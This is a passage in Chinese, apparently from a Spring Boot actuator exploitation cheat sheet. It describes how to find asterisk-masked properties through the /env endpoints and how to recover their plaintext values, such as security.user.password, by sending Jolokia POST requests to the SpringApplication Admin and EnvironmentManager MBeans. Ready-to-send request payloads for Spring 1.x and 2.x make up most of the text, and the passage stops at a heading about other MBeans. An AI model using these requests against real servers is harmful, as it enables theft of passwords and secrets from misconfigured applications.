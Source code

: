 ##### 步骤一： 找到想要获取的属性名

- GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。


##### 步骤二： jolokia 调用相关 Mbean 获取明文

- 将下面示例中的 `security.user.password` 替换为实际要获取的属性名，直接发包；明文值结果包含在 response 数据包中的 `value` 键中。


- 调用 `org.springframework.boot` Mbean

> 实际上是调用 org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```



- 调用 `org.springframework.cloud.context.environment` Mbean


> 实际上是调用 org.springframework.cloud.context.environment.EnvironmentManager 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

- 调用其他 Mbean
